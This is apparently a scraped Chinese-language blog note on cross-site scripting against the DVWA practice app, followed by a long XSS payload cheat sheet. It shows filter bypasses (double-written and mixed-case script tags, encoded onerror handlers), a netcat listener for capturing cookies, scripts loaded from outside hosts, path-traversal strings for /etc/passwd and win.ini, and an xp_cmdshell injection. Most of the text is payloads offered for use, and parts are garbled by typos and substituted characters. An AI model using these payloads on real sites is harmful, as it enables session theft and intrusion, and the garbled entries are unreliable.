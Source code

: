 http://192.168.56.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert(%27提交成功！%27);location.href=%27https://www.jianshu.com/p/757626cec742%27;"%20response.end</script>


关于autofocus的属性
：autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
焦点的意思就是被选中，和文本框相似，

<button type="button" autofocus="autofocus">

点击这里</button>当页面加载完成之后，这个按钮会被选中
autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
1 2 3 4
<!-- These all work! --> <input autofocus="autofocus" /> <button autofocus="autofocus">Hi!</button> <textarea autofocus="autofocus"></textarea>
当有了autofocus属性，这些 INPUT, TEXTAREA, 或 BUTTON元素都能在页面加载是被选中。但如果使用纯显示元素，例如H1标记，autofocus属性并不好用。
这个属性在某些情况下非常有用。例如谷歌的首页，人们99%的时间都是用它来搜索，所以页面一旦加载，光标必然定位在输入框里。以前需要使用JavaScript才能完成，现在完全不需要了，html自己就能完成。


在html中 onfocus事件表示   事件在对象获得焦点时发生。

https://www.runoob.com/try/try.php?filename=tryjsref_onfocus
1.反射型XSS漏洞

在medium中 对代码进行了过滤，可以直接用双写 绕过！
输入

<sc<script>ript>alert(/xss/)</script>


，成功弹框：
相应的 XSS 链接：
http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3Csc%3Cscript%3Eript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
其中使用url翻译：http://tool.chinaz.com/tools/urlencode.aspx

也可以通过大小写混淆写通过：
输入<ScRipt>alert(/xss/)</script>，<ScRipt>alert(/网安2019/)</script>成功弹框：网安2019国庆70周年网络安全保障行动
<ScRipt>alert(/网安2019国庆70周年网络安全保障行动/)</script>
<ScRipt>alert(/wangan2019guoqing?70zhounianwangluoanquanbaozhangxingdongL?/)</script>
相应的 XSS 链接（转码为url）：http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3CScRipt%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#


但是在high中

过滤了很多代码，使得<script> 注入XSS代码无法使用。只能通过 其他方法
具体见上文

<input onfocus="https://www.baidu.com/" autofocus>


2.存储型XSS漏洞
对输入并没有做 XSS 方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型 XSS 漏洞


```

medium：

所以可以直接使用双写，大小写混写等直接绕过！
很垃圾：
双写绕过
直接修改前端代码改 name 参数为 

```
<sc<script>ript>alert(/xss/)</script>
<script>alert(/xss/)</script>
```
 ,成功弹框
大小写混淆绕过
直接修改前端代码改 name 参数为

```
 <script>alert(1)</script> ,
 ```
 成功弹框

javas&Tab;crip:\u0061lert&#x28;1&#x29
<a hret="javascript:\u0061lert&#x28;1&#x29">
<img src="javas&Tab;crip:\u0061lert(1)">
<img src="javas&Tab;crip:\u0061lert&#x28;1&#x29;">

利用top

```html
<a top[al+ert](1);>
```



high的代码很有效的过滤了所有  script的标签，但是，他旺旺没想到，魔高一尺道高一丈，你大爷永远是你大爷：

可以看到，这里使用正则表达式过滤了 <script> 标签，但是却忽略了 img、iframe 等其它危险的标签，因此 name 参数依旧存在存储型 XSS。
漏洞利用
直接修改前端代码改 name 参数为 

```
<img src=1 onerror=alert(网安2019)> ,

```

成功弹框

3.DOM型xss漏洞
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。


当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。
利用创建元素createElement()：
以DVWA反射型XSS为例，先在Kali监听1234端口：
nc -nvlp 1234

意在截取1234端口的cookie值。


XSS注入常用语句（整理）

```html

首先输入 

```
< > ' " = : ; 
```
查看这些东西有什么是被过滤了的符号或者替换了
```

**Ascii码绕过**
<img src="a" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

**hex绕过**

<img src=a onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

**八进制**

<img src=a onerror=alert('\170\163\163')>

**base64绕过**
<img src="a" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

```
<img src=x onerror=alert(0)>

alert（document.domain）" location 。href = " javascript：alert（document.domain）"

"onclick=alert(1)"

<script>alert('xss');</script> //经典语句，哈哈！

>"'><img src="javascript:alert('XSS')">

'><a hret="javascript:alert(1)">

'><a hret="javascr&#x69pt:alert(1)">

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>

<img src="javas&#99;ript:alert('XSS')">

%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script>

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>

<IMG SRC="javascript.:alert('XSS');">

<IMG src="/javascript.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>

<IMG SRC="jav&#x09;ascript.:alert('XSS');">

<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">

"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out

<IMG SRC=" javascript.:alert('XSS');">

<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>

<IMG DYNSRC="javascript.:alert('XSS')">

<IMG LOWSRC="javascript.:alert('XSS')">

<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">

<IMG SRC='vbscript.:msgbox("XSS")'>

<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE='xss:expre\ssion(alert("XSS"))'>

<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

<IMG SRC="javascript.:alert('XSS')"

<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
'"()&%<acx><ScRiPt >prompt(915149)</ScRiPt>
 
<svg/οnlοad=alert(1)>
 
<script>alert(document.cookie)</script>
 
'><script>alert(document.cookie)</script>
 
='><script>alert(document.cookie)</script>
 
<script>alert(vulnerable)</script>
 
%3Cscript%3Ealert('XSS')%3C/script%3E
 
<script>alert('XSS')</script>
 
<img src="javascript:alert('XSS')">
 
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
 
%22%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
 
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
 
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
 
<script>alert('Vulnerable');</script>
 
<script>alert('Vulnerable')</script>
 
a.jsp/<script>alert('Vulnerable')</script>
 
a?<script>alert('Vulnerable')</script>
 
"><script>alert('Vulnerable')</script>
 
';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
 
%3Cscript%3Ealert(document. domain);%3C/script%3E&
 
%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
 
<IMG src="javascript:alert('XSS');">
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert("XSS")>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
"<IMG src=java\0script:alert(\"XSS\")>";' > out
 
<IMG src=" javascript:alert('XSS');">
 
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
 
<BODY BACKGROUND="javascript:alert('XSS')">
 
<BODY ONLOAD=alert('XSS')>
 
<IMG DYNSRC="javascript:alert('XSS')">
 
<IMG LOWSRC="javascript:alert('XSS')">
 
<BGSOUND src="javascript:alert('XSS');">
 
<br size="&{alert('XSS')}">
 
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
 
<LINK REL="stylesheet" href="javascript:alert('XSS');">
 
<IMG src='vbscript:msgbox("XSS")'>
 
<IMG src="mocha:[code]">
 
<IMG src="livescript:[code]">
 
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
 
<IFRAME src=javascript:alert('XSS')></IFRAME>
 
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
 
<TABLE BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
 
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
 
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
 
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<BASE href="javascript:alert('XSS');//">
 
getURL("javascript:alert('XSS')")
 
a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
 
<XML src="javascript:alert('XSS');">
 
"> <BODY><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
 
<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
 
<IMG src="javascript:alert('XSS')"
```

<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo
'=http://xss.ha.ckers.org/a.js></SCRIPT>'"-->
```

<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
 
<SCRIPT a=">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT =">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT "a='>'" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<A href=https://www.baidu.com/>link</A>
 
<IMG SRC=javascript:alert(‘XSS’)>
 
<IMG SRC=# οnmοuseοver=”alert(‘xxs’)”>
 
<IMG SRC=/ οnerrοr=”alert(String.fromCharCode(88,83,83))”></img>
 
<img src=x οnerrοr=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>
 
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
 
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
 
<IMG SRC=”jav ascript:alert(‘XSS’);”>
 
<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>
 
<IMG SRC=” &#14;  javascript:alert(‘XSS’);”>
 
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
 
<IMG SRC=”javascript:alert(‘XSS’)”
 
</script><script>alert(‘XSS’);</script>
 
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
 
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
 
<svg/οnlοad=alert('XSS')>
 
<IMG SRC=’vbscript:msgbox(“XSS”)’>
 
<BGSOUND SRC="javascript:alert('XSS');">
 
<BR SIZE="&{alert('XSS')}">
 
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
 
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<XSS STYLE="behavior: url(xss.htc);">
 
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
 
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
 
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

**绕waf**




